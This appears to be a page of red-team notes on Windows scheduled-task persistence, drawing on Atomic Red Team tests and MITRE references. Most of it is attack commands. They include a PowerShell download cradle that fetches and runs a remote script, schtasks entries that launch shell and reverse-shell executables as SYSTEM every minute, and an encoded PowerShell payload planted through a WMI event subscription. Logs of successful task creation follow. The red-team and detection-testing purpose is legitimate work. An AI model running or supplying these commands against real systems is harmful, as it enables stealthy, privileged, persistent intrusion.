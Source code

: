 # Red Team Notes

## Requirements

- impacket (https://github.com/fortra/impacket)
- TCP shell
- have creds

## Attack Attempts

**NEW Scheduled Tasks**
1. New Scheduled Task (schtasks.exe)

2. PowerShell

3. .NET 

4. PowerShell ISE

**MODIFY Scheduled Tasks**

5. Modified an existing task
    - Download cradle .bat/vba script
        - (no download cradle - https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1053.005/T1053.005.md#atomic-test-9---powershell-modify-a-scheduled-task)

        ```powershell
        powershell -nop -c "IEX (New-Object Net.WebClient).DownloadString('https://example.com/myscript.bat')"
        ```

6. Registry/xml modification without creating an event

**REMOTE Scheduled Task Creation**

6. impacket wmi
    - https://www.13cubed.com/downloads/impacket_exec_commands_cheat_sheet.pdf 


## Techniques / Notes

At utility to create task
- registry key specifically associated with the creation of a scheduled task on the destination host at: Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\At1.

Creating a new scheduled task that will launch shell.cmd every minute:
attacker@victim
```powershell
schtasks /create /sc minute /mo 1 /tn "eviltask" /tr C:\tools\shell.cmd /ru "SYSTEM"
```

[APT3](https://attack.mitre.org/groups/G0022) downloader creates persistence by creating the following scheduled task: 
```powershell
schtasks /create /tn "mysc" /tr C:\Users\Public\test.exe /sc ONLOGON /ru "System"
```

Atomic Red Team: 
- https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1053.005/T1053.005.md#atomic-test-1---scheduled-task-startup-script

Create an scheduled task that executes notepad.exe after user login from XML by leveraging WMI class PS_ScheduledTask. Does the same thing as Register-ScheduledTask cmdlet behind the scenes.
```powershell
$xml = [System.IO.File]::ReadAllText("#{xml_path}")
Invoke-CimMethod -ClassName PS_ScheduledTask -NameSpace "Root\Microsoft\Windows\TaskScheduler" -MethodName "RegisterByXml" -Arguments @{ Force = $true; Xml =$xml; }
```
Clean up commands: 
```powershell
Unregister-ScheduledTask -TaskName "T1053_005_WMI" -confirm:$false >$null 2>&1

https://atomicredteam.io/privilege-escalation/T1053.005/#atomic-test-6---wmi-invoke-cimmethod-scheduled-task
```

## Atomic Test #9 - PowerShell Modify A Scheduled Task
Create a scheduled task with an action and modify the action to do something else. The initial idea is to showcase Microsoft Windows TaskScheduler Operational log modification of an action on a Task already registered. It will first be created to spawn cmd.exe, but modified to run notepad.exe.


Upon successful execution, powershell.exe will create a scheduled task and modify the action.


Supported Platforms: Windows

auto_generated_guid: dda6fc7b-c9a6-4c18-b98d-95ec6542af6d

**Attack Commands: Run with powershell!**
```powershell
$Action = New-ScheduledTaskAction -Execute "cmd.exe"
$Trigger = New-ScheduledTaskTrigger -AtLogon
$User = New-ScheduledTaskPrincipal -GroupId "BUILTIN\Administrators" -RunLevel Highest
$Set = New-ScheduledTaskSettingsSet
$object = New-ScheduledTask -Action $Action -Principal $User -Trigger $Trigger -Settings $Set
Register-ScheduledTask AtomicTaskModifed -InputObject $object
$NewAction = New-ScheduledTaskAction -Execute "Notepad.exe"
Set-ScheduledTask "AtomicTaskModifed" -Action $NewAction
```

References:
- https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1053.005/T1053.005.md#atomic-test-9---powershell-modify-a-scheduled-task
- https://www.ired.team/offensive-security/persistence/t1053-schtask
- https://github.com/KnightsofRen-CS/CS2022-OPFOR/blob/main/3_CRONOS_PRIMO/evil-winrm-chain.md


```powershell
invoke-assembly sharpstay.exe action=WMIEventSub command="powershell.exe -Enc cgB1AG4AZABsAGwAMwAyAC4AZQB4AGUAIABDADoAXABXAGkAbgBkAG8AdwBzAFwAUwB5AHMAdABlAG0AMwAyAFwAbQBwAC4AZABsAGwALABSAHUAbgAgAGgAdAB0AHAAcwA6AC8ALwB7AEQATwBNAEEASQBOAH0A" eventname=UserService attime=startup
```

## MSELS: 

**1.01**
```powershell 
cmd.exe /c SCHTASKS /CREATE /SC MINUTE /TN dnscache /TR c:\dongle\reversecmd1.exe /RU SYSTEM /f
```
> SUCCESS: The scheduled task "dnscache" has successfully been created.

**2.01**
```powershell
schtasks /create /sc minute /tn startuptask /tr C:\medium\shell.exe /ru SYSTEM /f
```
> SUCCESS: The scheduled task "startuptask" has successfully been created.

